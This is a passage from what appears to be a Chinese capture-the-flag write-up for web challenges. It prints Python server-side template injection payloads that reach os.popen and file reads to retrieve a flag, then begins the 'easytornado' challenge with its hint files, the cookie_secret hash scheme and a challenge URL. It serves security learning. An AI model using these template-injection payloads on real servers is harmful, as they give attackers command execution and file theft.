 ```
/{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()}}		//也可以用这个

{{''.__class__.__mro__[2].__subclasses__()[40]('fl4g').read()}}
```

![Web_python_template_injection](images/web/攻防世界_Web_python_template_injection_4.png)



### easytornado

#### 考点：模板注入，加密获取cookie

我们进入题目可以看到三个文件，我们分别点击去看看

> /flag.txt 
>
> /welcome.txt 
>
> /hints.txt

```
/flag.txt
flag in /fllllllllllllag
/welcome.txt
render
/hints.txt
md5(cookie_secret+md5(filename))
```

- 第一个文件flag.txt，flag的提示文件名为`/fllllllllllag`
- 第二个welcome.txt中，我们发现提示有一个render，render({options}) 去向模板中渲染数据, 可以把视图响应给客户端，猜测存在模板注入
- 第三个hints.txt，提示md5(cookie_secret+md5(filename))，我们需要获得filename和cookie_secret，filename我们有理由猜测为`/fllllllllllag`，所以，下面的任务就是要找到cookie_secret了

同时，我们在进入页面后，发现URL也变得奇怪，**filehash** 参数应该就是我们最后填入的参数的地方了

```
http://220.249.52.134:37004/file?filename=/flag.txt&filehash=e8974dc29608e8e0dc0003e6405eddeb
```
